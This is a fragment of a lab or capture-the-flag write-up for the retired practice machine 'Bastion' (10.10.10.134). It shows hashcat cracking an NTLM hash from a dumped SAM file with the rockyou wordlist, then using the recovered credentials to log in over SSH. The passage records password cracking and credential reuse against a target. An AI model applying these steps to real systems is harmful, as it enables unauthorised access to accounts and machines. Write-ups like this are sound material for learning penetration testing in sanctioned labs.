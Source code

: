 ```
* Not-Iterated
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

INFO: Removed hash found as potfile entry.

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

26112010952d963c8dc4217daec986d9:bureaulampje             
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: /root/Downloads/sam.txt
Time.Started.....: Mon Oct 14 12:13:24 2024 (2 secs)
Time.Estimated...: Mon Oct 14 12:13:26 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5527.3 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests (total), 1/2 (50.00%) Digests (new)
Progress.........: 9400320/14344385 (65.53%)
Rejected.........: 0/9400320 (0.00%)
Restore.Point....: 9394176/14344385 (65.49%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: burlfish85 -> buneybuney
Hardware.Mon.#1..: Util: 27%

Started: Mon Oct 14 12:13:23 2024
Stopped: Mon Oct 14 12:13:27 2024
```
- We now have the creds `L4mpje:bureaulampje`

- Using the creds, we can log in using `rpcclient` #RPC #rpcclient 
	- No commands work
- Let's try to login using `SSH`
```
┌──(root㉿kali)-[~/Downloads]
└─# ssh 'L4mpje'@10.10.10.134
The authenticity of host '10.10.10.134 (10.10.10.134)' can't be established.
ED25519 key fingerprint is SHA256:2ZbIDKRPlngECX1WSMqnucdOWthIaPG7wQ6mBReac7M.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.134' (ED25519) to the list of known hosts.
L4mpje@10.10.10.134's password: 
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            
l4mpje@BASTION C:\Users\L4mpje>whoami
```